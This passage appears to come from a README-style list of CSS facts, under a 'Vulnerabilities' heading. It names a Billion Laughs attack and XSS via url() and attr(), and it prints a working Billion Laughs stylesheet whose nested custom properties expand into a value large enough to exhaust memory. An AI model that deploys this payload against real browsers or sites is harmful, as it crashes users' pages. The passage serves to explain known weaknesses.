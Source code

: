 ## 1️⃣7️⃣ Vulnerabilities

- Billion Laughs Attack (https://drafts.csswg.org/css-variables/#long-variables)
- XSS through `url()` + `attr()`

```css
/* Billion Laughs Attack */
/* create a value in custom property so big that it runs out of memory */
:root {
  --v1: "lol";
  --v2: var(--v1) var(--v1) var(--v1) var(--v1) var(--v1) var(--v1) var(--v1) var(--v1) var(--v1) var(--v1);
  --v3: var(--v2) var(--v2) var(--v2) var(--v2) var(--v2) var(--v2) var(--v2) var(--v2) var(--v2) var(--v2);
  --v4: var(--v3) var(--v3) var(--v3) var(--v3) var(--v3) var(--v3) var(--v3) var(--v3) var(--v3) var(--v3);
  --v5: var(--v4) var(--v4) var(--v4) var(--v4) var(--v4) var(--v4) var(--v4) var(--v4) var(--v4) var(--v4);
  --v6: var(--v5) var(--v5) var(--v5) var(--v5) var(--v5) var(--v5) var(--v5) var(--v5) var(--v5) var(--v5);
  --v7: var(--v6) var(--v6) var(--v6) var(--v6) var(--v6) var(--v6) var(--v6) var(--v6) var(--v6) var(--v6);
  --v8: var(--v7) var(--v7) var(--v7) var(--v7) var(--v7) var(--v7) var(--v7) var(--v7) var(--v7) var(--v7);
  --v9: var(--v8) var(--v8) var(--v8) var(--v8) var(--v8) var(--v8) var(--v8) var(--v8) var(--v8) var(--v8);
  --v10: var(--v9) var(--v9) var(--v9) var(--v9) var(--v9) var(--v9) var(--v9) var(--v9) var(--v9) var(--v9);
}
```
